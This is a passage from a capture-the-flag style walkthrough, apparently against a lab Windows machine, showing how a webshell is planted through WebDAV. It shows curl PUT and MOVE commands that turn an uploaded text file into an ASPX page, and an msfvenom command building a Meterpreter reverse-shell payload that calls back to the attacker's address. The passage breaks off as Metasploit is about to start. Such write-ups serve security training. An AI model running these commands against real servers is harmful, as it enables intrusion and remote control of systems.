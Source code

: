 ### Move Webshell

Now I'll use the next webdav command, MOVE. Again, I can do this with
curl:

-   `-X MOVE` - use the MOVE method
-   `-H 'Destination:http://10.10.10.15/0xdf.aspx'` - defines where to
    move to
-   `http://10.10.10.15/0xdf.txt` - the file to move



    root@kali# curl -X MOVE -H 'Destination:http://10.10.10.15/0xdf.aspx' http://10.10.10.15/0xdf.txt



And it works:

![](/img/1551906682814.png)

![](/img/1551910243368.png)

### Meterpreter

I'll do the same thing with a meterpreter payload. Create it:



    root@kali# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.14.14 LPORT=443 -f aspx > met.aspx
    [-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
    [-] No arch selected, selecting arch: x86 from the payload
    No encoder or badchars specified, outputting raw payload
    Payload size: 341 bytes
    Final size of aspx file: 2797 bytes



Upload:



    root@kali# curl -X PUT http://10.10.10.15/met.txt -d @met.aspx 
    root@kali# curl -X MOVE -H 'Destination: http://10.10.10.15/met.aspx' http://10.10.10.15/met.txt



Start Metasploit:

